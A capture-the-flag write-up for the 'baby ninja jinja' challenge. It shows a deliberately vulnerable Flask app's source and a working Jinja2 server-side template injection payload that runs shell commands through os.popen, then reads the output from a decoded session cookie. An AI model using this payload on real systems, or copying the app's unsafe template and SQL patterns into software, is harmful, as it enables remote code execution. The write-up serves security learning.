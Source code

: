 # baby ninja jinja

A form appears on the website. Since the entry did not appear to be vulnerable to SQL injection or any other attack.

If you see the source code `(crt + u)` of the page, such a thing is commented at the bottom of the page :
```html
</body>
<!-- /debug -->
</html>
```

> If we look at this path

`/debug` :
```python
from flask import Flask, session, render_template, request, Response, render_template_string, g
import functools, sqlite3, os

app = Flask(__name__)
app.config['SECRET_KEY'] = os.urandom(120)

acc_tmpl = '''{% extends 'index.html' %}
{% block content %}
<h3>baby_ninja joined, total number of rebels: reb_num<br>
{% endblock %}
'''

def get_db():
    db = getattr(g, '_database', None)
    if db is None:
        db = g._database = sqlite3.connect('/tmp/ninjas.db')
        db.isolation_level = None
        db.row_factory = sqlite3.Row
        db.text_factory = (lambda s: s.replace('{{', '').
            replace("'", '&#x27;').
            replace('"', '&quot;').
            replace('<', '&lt;').
            replace('>', '&gt;')
        )
    return db

def query_db(query, args=(), one=False):
    with app.app_context():
        cur = get_db().execute(query, args)
        rv = [dict((cur.description[idx][0], str(value)) \
            for idx, value in enumerate(row)) for row in cur.fetchall()]
        return (rv[0] if rv else None) if one else rv

@app.before_first_request
def init_db():
    with app.open_resource('schema.sql', mode='r') as f:
        get_db().cursor().executescript(f.read())

@app.teardown_appcontext
def close_connection(exception):
    db = getattr(g, '_database', None)
    if db is not None: db.close()

def rite_of_passage(func):
    @functools.wraps(func)
    def born2pwn(*args, **kwargs):

        name = request.args.get('name', '')

        if name:
            query_db('INSERT INTO ninjas (name) VALUES ("%s")' % name)

            report = render_template_string(acc_tmpl.
                replace('baby_ninja', query_db('SELECT name FROM ninjas ORDER BY id DESC', one=True)['name']).
                replace('reb_num', query_db('SELECT COUNT(id) FROM ninjas', one=True).itervalues().next())
            )

            if session.get('leader'): 
                return report

            return render_template('welcome.jinja2')
        return func(*args, **kwargs)
    return born2pwn

@app.route('/')
@rite_of_passage
def index():
    return render_template('index.html')

@app.route('/debug')
def debug():
    return Response(open(__file__).read(), mimetype='text/plain')

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=1337, debug=True)
```

# SSTI

This code shows that the name entry is inserted into a backend database and then extracted again from it to replace the substring `baby_ninja` in the `acc_tmpl` string, which is then passed to the `render_template_string` function.

The string acc_tmpl contains template blocks that are indicated by `{%" and the trailing "%}`. The challenge's name contains the word `Jinja`, which is a template language for Python.

The attack should consist of a `Server-Side Template Injection (SSTI)`. This is accomplished by inserting template blocks into our name parameter so that the template blocks are executed in the context of the backend server when rendering the template string.

* SSTI attacks on Jinja & Python
    * [Jinja2 SSTI](https://hackmd.io/@Chivato/HyWsJ31dI#References)
    * [Jinja2 SSTI](https://realpython.com/primer-on-jinja-templating/)

It was built as follows
```python
{%+if+session.update({request.args.se:request.application.__globals__.__builtins__.__import__(request.args.os).popen(request.args.command).read()})+==+1+%}{%+endif+%}&se=asdf&os=os&command=ls
```
The result of the above command cannot be displayed because it stores the result of the request in a cookie called a `session`
We must decode this cookie every time we send a request
```bash
flask-unsign --decode --cookie "eyJhc2RmIjp7IiBiIjoiWVhCd0xuQjVDbVpzWVdkZlVEVTBaV1FLYzJOb1pXMWhMbk54YkFwemRHRjBhV01LZEdWdGNHeGhkR1Z6Q2c9PSJ9fQ.YRQfrQ.HxMrG2AVH-UYqJ2LUUCVt8lEvDw"

{'asdf': b'app.py\nflag_P54ed\nschema.sql\nstatic\ntemplates\n'}
```
As you can see above, the name of the flag is clear so the next request is as follows:
```python
{%+if+session.update({request.args.se:request.application.__globals__.__builtins__.__import__(request.args.os).popen(request.args.command).read()})+==+1+%}{%+endif+%}&se=asdf&os=os&command=cat flag_P54ed
```
If we decode the session cookie twice, the flag is visible
```
flask-unsign --decode --cookie [COOKIE]
{'asdf': b'HTB{b4by_ninj4s_****_***_******_**_******}\n'}
```